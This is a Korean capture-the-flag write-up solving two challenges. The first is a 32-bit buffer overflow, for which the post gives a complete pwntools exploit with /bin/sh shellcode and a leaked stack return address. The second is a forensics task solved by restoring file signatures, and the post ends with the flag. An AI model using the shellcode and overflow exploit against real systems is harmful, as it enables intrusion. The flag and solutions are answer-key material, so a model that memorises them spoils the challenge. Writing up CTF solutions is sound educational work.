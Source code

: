 EnteredSHELL, 열어보시지요
=================
EnteredSHELL
---------------------------
이 문제는 포너블 분야의 문제로 수준은 LOB 1단계 급 수준이다.

파일은 32bit로 컴파일 되어있으며, 보호기법은 걸려있지 않다.

main함수를 보자.

![텍스트](https://i.imgur.com/utNEvRC.png)

vuln 함수를 호출해준다. 바로 vuln 함수를 보자.

![텍스트](https://i.imgur.com/MDx4rQm.png)

gets로 s변수에 입력을 받으므로 Buffer overflow가 일어난다는 사실이 자명하다.

심지어 이 파일은 NX도 걸려있지 않고, canary도 걸려있지 않으므로, 스택으로 eip을 돌려서shellcode를 실행시켜주면 될 것이다.

하지만 실 서버에는 ASLR이 걸려있기 때문에 stack으로 eip를 돌리는 게 힘들 것이라고 생각을 할 수 있다. 그렇지만, printf로 stack address를 스스로 leak 해준다.

그러므로 시나리오는 stack에 gets로 값을 받음을 이용, shellcode를 stack에 넣어주고, eip를 leak된 값을 이용해서 stack address로 옮겨주면 된다.	끝

~~~
from pwn import *
p = process('./EnteredSHELL')
#p = remote('52.78.156.241', 7777)

p.recvuntil(' : ')
leak = int(p.recv()[:8],16)
shell = '\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
pay = shell + 'a'*234 + p32(leak)
log.info('stack : ' + hex(leak))
p.sendline(pay)
p.recvuntil(p32(leak) + '\n')
p.interactive()
~~~

![텍스트](https://imgur.com/zP1JqEM.png)

서버가 닫혀있어서 플래그는 모르겠다.

![텍스트](https://imgur.com/8xRi18e.png)

열어보시지요
---------------------------

이 문제는 리버싱 분야의 문제로 출제됐다.

사실 포렌식 문제라고 보는 게 더 맞을 거 같다는 생각이 든다.

![텍스트](https://imgur.com/vsYymB2.png)

처음에 zip 압축 풀고 폴더 열어보면 이렇게 “열어보시지요”라는 파일들이 각각의 파일 확장자를 가진 상태로 주어져있다. 

그 상태에서 파일을 열어보면 잘 열리는 파일들이 있다.

![텍스트](https://imgur.com/C2gakgK.png)

이런 식으로 아마 pdf, pptx파일은 잘 열린다.

![텍스트](https://imgur.com/JjWDrNB.png)

하지만 그 두 파일이 아닌 나머지 파일은 이런 식으로 열리지 않는다.

열리지 않는 이유는 간단하게 맨 앞 몇 바이트 부분을 차지하는 파일 시그니처 부분이 다른 값으로 바뀌어져 있기 때문이다.

![텍스트](https://imgur.com/y1DUHGi)

위 사진과 같이 hxd로 파일들을 확인해본다면, 왼쪽의 원래 확장자와 맞는 파일 시그니처와 오른쪽의 받은 파일에 시그니처가 값이 다르다.

그래서 앞 부분 파일 시그니처의 몇 바이트 부분을 확장자에 맞는 값으로 바꿔주면 파일이 열리게 된다.

![텍스트](https://imgur.com/lQwP2Lj.png)

이런식으로 값을 바꿔주게 된다면, 파일이 열리고 플래그의 일부분이 보이게 될 것이며, 모든 파일을 순서대로 읽어온다면 모든 플래그를 읽어올 수 있다.

![텍스트](https://imgur.com/sNME4LW.png)

이렇게 열리지 않던 파일이 열리게 됨으로써 문제가 풀리게 된다.

#FLAG : 1_m!Ss__the__moooHaaaanDOJEON
